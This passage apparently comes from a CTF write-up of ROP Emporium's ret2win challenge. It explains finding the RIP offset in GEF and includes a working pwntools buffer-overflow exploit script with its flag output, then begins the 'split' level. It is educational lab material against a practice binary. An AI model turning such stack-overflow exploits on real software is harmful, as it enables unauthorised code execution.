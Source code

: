 ```shell
[+] Found at offset 25 (big-endian search) 
gef➤ 
```

We see that we don't overwrite RIP at all. This is because we overwrote RIP with an invalid address greater than `0x00007fffffffffff`, which is the maximum address size of a 64 bit system. This causes the OS to raise an exception and thus not update RIP's value at all.

However, we did overwrite RBP, and we know that the return address exists 8 bytes past RBP's address. Finding the offset for RBP (32) then adding 8 to it, gives us the offset for overwriting RIP, which is 32+8=40.

Note that we still have control of RIP, it's just that we can't write an invalid address to it. Fortunately, the address to the `ret2win()` function *is* a valid address, so the following script does the job.

```python
  1 #!/usr/bin/env python
  2 
  3 from pwn import *
  4 
  5 context.log_level = 'critical'
  6 
  7 elf = ELF("./ret2win")
  8 
  9 ret2win_addr = elf.symbols['ret2win']
 10 
 11 payload = "A"*40
 12 payload += p64(ret2win_addr)
 13 
 14 sh = elf.process()
 15 
 16 sh.recvuntil('> ')
 17 sh.sendline(payload)
 18 
 19 print sh.recvall()
```

Easy.
```shell
~/Documents/ropemporium/ret2win/64ret2win# ./exploit.py
Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
```

# split
<a href="{{ page.url }}#title">Back to top ↑</a>

This level takes it up a notch, and has us set up the stack such that we call `system()` ourselves and supply our own argument of '/bin/cat flag.txt'.

### 32-bit
<a href="{{ page.url }}#title">Back to top ↑</a>

